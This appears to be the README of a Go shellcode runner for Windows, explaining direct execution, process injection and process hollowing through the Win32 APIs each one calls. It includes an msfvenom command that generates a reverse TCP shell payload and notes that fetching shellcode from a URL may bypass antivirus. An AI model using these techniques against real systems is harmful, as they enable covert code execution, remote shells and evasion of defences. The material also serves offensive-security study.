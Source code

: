 # Golang (Windows) Shellcode Runner

A small project I put together to help me understand the concepts behind process injection, hollowing and running lots of win32 API calls directly from Go using just the syscall library.

Hopefully the code is easy to understand, even though its all this low level nonsense with uintptr etc.

## Specifying Shellcode

Shell code to run can be specified one of three ways: directly on the args via `-i`, from a file via `-f`, or from a url with `-u`. This last option is useful as the shellcode will never be written to disk, possibly bypassing anti-virus.

> Shellcode this has been tested with on Windows 11 was created with msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 PORT=4444 EXITFUNC=thread -f raw -o msfvenom_reversetcp_4444.txt` and then it was run via `-f msfvenom_reversetcp_4444.txt`.

## Modes of Operation

The shellcode can be run in one of three ways: directly, via process injection, or via process hollowing

### Direct Execution

This is the default option if `-p` or `-e` are not specified. The following APIs will be invoked:

- **VirtualAlloc** to create some memory space in the runner process
- **RtlMoveMemory** to copy the shellcode into this space
- **CreateThread** to start a thread to run the shellcode
- **WaitForSingleObject** to keep the process alive until the thread exits

This mode can be useful for debugging shellcode; add an `int3` to your assembly, attach to the runner process and go!

### Process Injection

Provide a process ID with `-p`. The process must be one you either created or otherwise have the writes to mess with. I tested with notepad, grabbing its PID from task manager.

The following APIs are invoked to run the shellcode inside the target process:

- **OpenProcess** to get the process information
- **VirtualAllocEx** to allocate some memory inside the process for the shellcode
- **WriteProcessMemory** to write the shellcode inside this space
- **CreateRemoteThread** to tell the process to run the shellcode with a new thread

The shellcode runner (this go project) doesn't need to be kept alive in this mode, and so will exit.

### Process Hollowing

Provide an executable path with `-e` - I tested using svchost, with the path `c:\\windows\\system32\\svchost.exe`. svchost in particular, if not run as system, will immediately exit when run. But process hollowing launches it suspended and then replaces its code with the shellcode, like a parasite :D

The following APIs are invoked in this mode:

- **CreateProcessA** to start a new process. The flag 0x4 is passed to start it suspended, just before it would run its code.
- **ZwQueryInformationProcess** to get the address of the process's PEB (process environment block)
- **ReadProcessMemory** to query the PEB for the image base address
- **ReadProcessMemory** again to read from the image base address (loading in the PE header for example)
- **WriteProcessMemory** to overwrite the memory from the code base address with shellcode
- **ResumeThread** to restart the suspended process, triggering the shellcode.

As with process injection, the go shellcode runner will exit once the thread is resumed.